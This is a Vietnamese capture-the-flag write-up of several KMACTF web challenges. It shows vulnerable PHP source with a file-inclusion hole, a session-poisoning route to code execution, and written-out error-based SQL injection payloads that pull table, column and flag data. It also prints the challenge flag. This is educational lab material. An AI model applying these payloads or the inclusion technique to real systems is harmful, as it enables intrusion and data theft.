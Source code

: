 # RCE ME 

## PHÂN TÍCH

Vào trang web của bài này ta thấy được như sau.

![](images/2022-01-24-07-50-22.png)

Sau một hồi test thì mình biết nó dính LFI và mình sài PHP wrapper thử đọc file index.php thì mình được như sau.

![](images/2022-01-24-07-52-59.png)

Đem đi decode base64 ta có được source code như sau.

```
<?php
session_start();
$_SESSION['name'] = @$_GET["name"];
$l = @$_GET['l'];
if ($l) include $l;
?>
<h1>Try rce me!</h1>
<h2>
  <a href="?l=/etc/passwd">?l=/etc/passwd</a>
</h2>
```

Ta thấy source code có lấy vào một tham số `name` từ GET request để gán giá trị vào biến SESSION. Thử gán giá trị `name=d47` và dọc file session để xem như nào.

![](images/2022-01-24-07-58-42.png)

Vậy giờ ý tưởng là ta sẽ ghi nội dung là một đoạn code php và sau đó gọi đến file này để thực thi code PHP 

## KHAI THÁC

![](images/2022-01-24-08-07-13.png)

![](images/2022-01-24-08-07-32.png)

RCE thành công 


# Try SQL MAP

## PHÂN TÍCH

Như tên bài , thì đây là bài SQLi ở lệnh ORDER BY 

Câu truy vấn có thể sẽ như sau.

> SELECT column_name from table_name order by $_GET[order]

Ở bài này xài UPDATEXML để lấy các tables, columns ở trong db 


## KHAI THÁC

PAYLOAD ĐỂ LẤY TÊN BẢNG

> 0^updatexml(0,concat(0xa,(select(mid(table_name,1,32))from(information_schema.tables)limit+1)),0)

Do kết quả trả về chỉ giới hạn 32 kí tự nên ta cần thực hiện 2 lần câu query để lấy đầy đủ tên bảng

> 0^updatexml(0,concat(0xa,(select(mid(table_name,32,32))from(information_schema.tables)limit+1)),0)

Table name: flahga123456789xxsxx012xxxxxxxxx34567xx1

PAYLOAD ĐỂ LẤY TÊN CỘT

> 0^updatexml(0,concat(0xa,(select(mid(column_name,1,32))from(information_schema.columns)limit+1)),0)

Column name: flag 

PAYLOAD ĐỂ LẤY FLAG

> PART1: 1^updatexml(0,concat(0,(select(mid(flag,1,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

> PART2: 1^updatexml(0,concat(0,(select(mid(flag,33,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

> PART3: 1^updatexml(0,concat(0,(select(mid(flag,65,32))from(flahga123456789xxsxx012xxxxxxxxx34567xx1))),0)

FLAG: KMACTF{X_Ooooooooooooorder_By_Noooooooooooooooooooone_SQLMaaaaaaaaaaaap?!!!!!!!!!!!!}


# RCE 2

Bài này lần đầu mình gặp, may có hint của tác giả có cho link của lỗi này. Sau đó mình sửa lại một chút là đọc được flag.

Link tham khảo: https://bierbaumer.net/security/php-lfi-with-nginx-assistance/

File exploit mình để ở trên [rce2.py](rce2.py)

# Fast and furious

Đây là 1 bài programming, cho ta một dãy và yêu cầu ta sắp xếp dãy đó.

Script [fast.py](fast.py)